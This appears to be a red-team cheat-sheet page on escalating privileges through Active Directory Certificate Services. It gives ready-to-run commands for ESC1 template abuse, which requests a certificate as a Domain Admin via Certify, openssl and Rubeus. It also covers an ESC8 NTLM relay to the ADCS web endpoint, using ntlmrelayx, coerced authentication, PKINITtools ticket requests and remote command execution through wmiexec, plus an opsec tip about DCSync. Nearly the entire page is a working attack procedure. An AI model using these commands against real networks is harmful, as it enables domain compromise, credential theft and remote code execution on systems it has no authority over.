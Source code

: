 #### _AD CS vulnerable template privilege escalation \(ESC1\):_
This technique exploits vulnerable ADCS templates which leads to the compromise of any domain account\. To mark a template as vulnerable, the following things should apply: \[1\] the 'pKIExtendedKeyUsage' options must allow for 'Smart Card Logon' and/or 'Client Authentication'; \[2\] not privileged groups \(e\.g\. Domain Users\) have the 'Enrollment Permissions' set; and \[3\] the 'msPKI\-Certificate\-Name\-Flag' is set with the option 'ENROLLEE\_SUPPLIES\_SUBJECT' which allows for changing the ticket to any user/computer account in the domain\.
>As an alterative approach, don't impersonate a DA account but instead impersonate a DC computer account\. After obtaining the NTLM hash of the DC, perform DCSync to another DC for better opsec.
- 1\. Check if ADCS is installed and identify vulnerable/abusable certificate templates using default low\-privileged groups or from the current user's context \([Certify](https://github.com/GhostPack/Certify)\): `Certify.exe find /vulnerable (/currentuser)`
- 2\. Request certificate for the vulnerable template and specify a DA as the alternate principle \(Certify\): `Certify.exe request /ca:<CA Name> /template:<vuln template name> /altname:<DA username>`
- 3\. Copy the returned certificate \(\-\-\-\-\-BEGIN RSA PRIVATE KEY\-\-\-\-\- \.\.\. \-\-\-\-\-END CERTIFICATE\-\-\-\-\-\), save it in a file called 'cert\.pem' and convert it to a \.pfx file \(don't enter a password\): `openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`
- 4\. Upload the cert\.pfx file to the current compromised system
- 5\. Request a TGT for the 'altname' user \([Rubeus](https://github.com/GhostPack/Rubeus)\): `Rubeus.exe asktgt /user:<altname> /certificate:C:\users\public\documents\cert.pfx (/nowrap | /ptt)`

#### _AD CS HTTP end\-point privilege escalation \(ESC8\):_
This NTLM\-relay attack uses the ADCS HTTP enrollment interface to request a client authentication certificate based on the 'User' or 'Machine' certificate templates \(these templates are enrolled by default, support 'Client Authentication' and can be enrolled by low\-priv users and computer accounts\)\. 
- 1\. List and verify if a vulnerable template is enrolled \([Certipy](https://github.com/ly4k/Certipy)\): `certipy find '<FQDN>'/'<username>':'<password>'@'<IP or FQDN of CA server>'`
- 2\. Start the relay server that points to the CA server \([impacket](https://github.com/SecureAuthCorp/impacket)\): `python3 ntlmrelayx\.py -t "http://<FQDN CA server>/certsrv/certfnsh.asp" --adcs --template "<vulnerable template name (e.g. User)>"`
- 3\. Coerce authentication from another high priveged server that is not the CA server \(e\.g\. via PetitPotam, SpoolSample or PushSubscription\)\.
- 4\. If successful, copy the returned base64 encoded certicate string and paste it in a file called 'cert\.pem'
- 5\. Use the obtained certificate to request a TGT for the relayed computer account \([PKINITtools](https://github.com/dirkjanm/PKINITtools)\): `(proxychains4) python3 gettgtpkinit.py <FQDN>/<relayed computer name>\$ -pfx-base64 $(cat cert.pem) -dc-ip <DC IP> out_tgt.ccache`
- 6\. Import TGT in your current environment: `export KRB5CCNAME=out_tgt.ccache`
- 7\. Request a TGS for a user that is an administrator \(e\.g\. DA\) on the relayed computer \(PKINITtools\): `(proxychains4) python3 gets4uticket.py kerberos+ccache://<FQDN>\\<relayed computer name>\$:out_tgt.ccache@<IP DC> host/<FQDN relayed computer>@<FQDN> Administrator@<FQDN> out_host.ccache -v`
- 8\. Import the new ticket in your current environment: `export KRB5CCNAME=out_host.ccache`
- 9\. Run any tool that supports kerberos authentication against the relayed computer \(e\.g\. impacket's WMIexec\): `impacket-wmiexec -nooutput -k -no-pass -dc-ip <DC IP> <FQDN>/Administrator@<FQDN relay server> "powershell.exe <command to run>"`
